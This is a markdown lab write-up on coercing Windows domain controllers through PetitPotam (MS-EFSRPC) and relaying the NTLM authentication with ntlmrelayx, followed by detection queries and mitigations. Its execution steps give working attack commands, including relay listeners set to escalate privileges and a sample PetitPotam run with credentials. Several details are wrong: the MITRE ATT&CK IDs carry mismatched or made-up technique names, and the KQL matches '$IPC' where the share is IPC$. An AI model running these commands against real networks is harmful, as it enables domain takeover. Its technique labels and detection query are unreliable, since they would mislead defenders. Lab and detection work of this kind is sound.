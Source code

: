 # Attack Scenario: Coercion via PetitPotam
PetitPotam abuses MS-EFSRPC (Encrypting File System Remote Protocol) to coerce an authenticated Windows host (typically a Domain Controller or File Server) into making an SMB connection to an attacker-controlled machine. This coerced authentication can be relayed via NTLM Relay to gain elevated access.

## MITRE ATT&CK Techniques:
- T1557.001 – Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning
- T1557.002 – SMB/NTLM Relay
- T1556.004 – Credential Relay via Coerced Authentication

## Lab Environment
- **Attacker machine:** attacker-vm (Kali or Ubuntu)
- **Target machine:** dc01.internal.lab or any file server with EFSRPC enabled
- **Relay target:** LDAP/SMB/HTTP service on a second internal host
- **Tools:** PetitPotam (Python version), ntlmrelayx

## Preconditions:

- Target system has EFSRPC service exposed (usually over \\target\pipe\efsrpc)

- No NTLM signing enforced on the relay target (e.g., LDAP or SMB)

## Objectives
- Force a victim machine to authenticate to attacker via SMB

- Relay the NTLM authentication to a third-party target (LDAP/SMB)

- Perform privileged operations (e.g., add user, dump secrets)

## Execution Steps
### 1. Set Up NTLM Relay (passive listener)

```ntlmrelayx.py -t ldap://dc01.internal.lab --no-wcf-server --escalate-user```
Or:

```ntlmrelayx.py -t smb://target.internal.lab -smb2support```
### 2. Trigger Authentication via PetitPotam
Clone and run:

```git clone https://github.com/topotam/PetitPotam
cd PetitPotam
python3 PetitPotam.py -u USER -p PASS -d internal.lab <target-ip> <attacker-ip>```

Note: Authenticated coercion works more reliably. Null sessions are usually blocked.

Example:

```python3 PetitPotam.py -u svc-backup -p P@ssw0rd1 -d internal.lab 10.0.0.10 10.0.0.99```
### 3. Confirm Relay
If successful, NTLMRelayX will show relayed authentication and resulting action (e.g., user added, hash dumped, shell granted).

## Detection Guidance
### Logs and Indicators
Event ID 4624 with LogonProcessName = NtLmSsp from unusual source IP

Event ID 5140 indicating share access from non-standard clients

High volume of failed or anomalous named pipe connections

### KQL – Suspicious Named Pipe Access

```
SecurityEvent
| where EventID == 5145
| where ShareName endswith "$IPC"
| where RelativeTargetName has "efsrpc"
```

### Defender for Identity
Alert: "Suspicious Kerberos-based authentication attempt"
Alert: "SMB relay attack attempt detected"

## Mitigations
- Block outbound SMB where not needed
- Require SMB and LDAP signing on all internal servers
- Disable the EFS service (if unused)
- Patch vulnerable systems (PetitPotam was mitigated by MS in patches starting mid-2021)
- Example GPO to disable EFS:

```Computer Configuration > Windows Settings > Security Settings > Public Key Policies > Encrypting File System > Do not allow```

## References
- https://github.com/topotam/PetitPotam
- https://dirkjanm.io/relaying-ntlm-to-ldap-with-ldaps-in-2020/
- https://attack.mitre.org/techniques/T1557/002/
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942

## Navigation
[Back to Lab Index:](../../README.md)
[Related: NTLM Relay](./NTLM-relay.md)